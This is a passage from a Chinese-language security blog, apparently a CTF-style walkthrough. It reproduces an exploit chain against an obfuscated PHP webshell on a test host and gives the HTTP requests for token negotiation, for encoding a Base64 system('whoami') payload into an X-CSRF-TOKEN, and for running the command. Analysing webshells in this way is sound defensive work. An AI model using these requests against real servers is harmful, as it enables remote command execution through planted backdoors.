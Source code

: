 通过编写这么一段代码，调换了一下顺序，就可以通过 `$t=>$_SESSION['token']` 和 `$r=>c3lzdGVtKCd3aG9hbWknKTsg`，拿到参数 `$v`

至此，整条利用链已经清晰，我们来复现一下吧：

#### 12.3.1 第一步、密钥协商得到Token

对WebShell进行发包，`Token` 随便填啥都行

```http
GET /muma.php HTTP/1.1
Host: test.ctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Token: 1
Content-Length: 0

```

在返回包中可以看到服务器生成的 `Token` 值和 `Cookie` 值

![样例三-1.png](https://blog.zgsec.cn/usr/uploads/2023/09/3979805148.png)

#### 12.3.2 第二步，得到X-CSRF-TOKEN

假设我们想执行系统命令 `whoami`，PHP代码就是 `system('whoami'); `，对其进行Base64加密后的字符串 `c3lzdGVtKCd3aG9hbWknKTsg`，当然你想执行其他的命令也行哈哈

```http
POST /decode.php HTTP/1.1
Host: test.ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

token=a2b3fca92539495e&out=c3lzdGVtKCd3aG9hbWknKTsg
```

然后通过上文写的解密PHP，通过第一步获得的 `Token` 值和最终Base64加密后的字符串 `c3lzdGVtKCd3aG9hbWknKTsg`，拿到得到 `X-CSRF-TOKEN`

![样例三-2.png](https://blog.zgsec.cn/usr/uploads/2023/09/1178498786.png)

 **注：这不是对WebShell发包，而是我上面写的解密PHP `decode.php` 来进行解密** 

#### 12.3.3 第三步，利用木马成功执行命令

现在已经拿到 `X-CSRF-TOKEN` 和 `Cookie` 了，那就直接发包即可

```http
POST /muma.php HTTP/1.1
Host: test.ctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=6g4sgte2t8nnv65u8er5cfdtnq;
X-CSRF-TOKEN: AgEOSQIkN015dlcKVX4MDQNlCV0tNxJe
Content-Length: 0

```
